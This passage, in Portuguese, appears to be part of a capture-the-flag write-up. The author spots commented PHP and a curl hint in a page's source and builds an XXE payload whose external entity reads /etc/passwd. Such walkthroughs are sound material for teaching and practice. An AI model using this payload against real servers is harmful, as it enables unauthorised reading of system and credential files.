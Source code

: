 ![client access: ultra wolcome](img/ultrapage.png)  

Mas se olharmos no código-fonte, veremos um trecho de código em PHP comentado, e uma instrução que diz pra user o curl para entrar com comandos ou arquivos xml, ainda nessa página tem outro comentário recomendando a atualização da senha do ftp  
![php](img/comentario-super.png)

 Entrada de arquivos XML remete a [XXE](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing), então seguindo as instruções do comentário eu criei um arquivo XML com o seguinte conteúdo (na verdade só adaptei rsrs):
 ```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
  <customer>&xxe;</customer>
  <password>mypass</password>
</creds>
 ```
